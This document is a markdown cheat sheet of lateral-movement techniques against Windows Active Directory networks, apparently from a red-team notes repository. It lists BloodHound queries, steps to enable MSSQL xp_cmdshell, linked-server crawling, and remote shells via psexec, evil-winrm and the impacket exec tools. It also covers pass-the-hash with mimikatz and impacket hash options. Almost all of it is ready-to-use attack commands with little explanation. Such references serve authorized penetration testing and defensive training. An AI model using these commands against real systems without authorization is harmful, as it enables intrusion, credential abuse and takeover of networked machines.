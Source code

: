 # Lateral Movement

## MSSQL
```
Bloodhound: MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
cme mssql <ip> -u <user> -p <password> -d <domain>

Shell:
EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;  RECONFIGURE;
EXEC xp_cmdshell '<cmd>'
```
Trust links:
```
Get-SQLServerLinkCrawl -username <user> -password <pass> -Verbose -Instance <sql_instance> -Query "<query>"
use exploit/windows/mssql/mssql_linkcrawler
```
impacket:
```
mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip> (pr #1397)

```

## Local User
Shell:
```
cme smb -u <user> -p <pass>' <ip> --local-auth
psexec.py <domain>/<user>:<password>@<ip>
psexec.exe -AcceptEULA \\<ip>
mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"
evil-winrm -i <ip> -u <user> -p <password>  - my favourite
xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>
smbclient.py <domain>/<user>:<password>@<ip>
crackmapexec mssql <ip_range> -u <user> -p <password>
mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>
```
Pseudo-shell - Fire write and read
```bash
atexec.py  <domain>/<user>:<password>@<ip> "command"
smbexec.py  <domain>/<user>:<password>@<ip>
wmiexec.py  <domain>/<user>:<password>@<ip>
dcomexec.py  <domain>/<user>:<password>@<ip>
cme smb <ip_range> -u <user> -p <password> -d <domain>
cme smb <ip_range> -u <user> -p <password> -local-auth

```
## NTLM hash
## Pass the hash (PTH)
full shell:
```bash
psexec.py -hashes "hash" user@ip
psexec.exe -AcceptEULA \\<ip>
mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"
```
pseudo-shell
```bash
atexec.py -hashes ":<hash>" <user>@<ip> "command"
smbexec.py -hashes ":<hash>" <user>@<ip>
wmiexec.py -hashes ":<hash>" <user>@<ip>
dcomexec.py -hashes ":<hash>" <user>@<ip>
```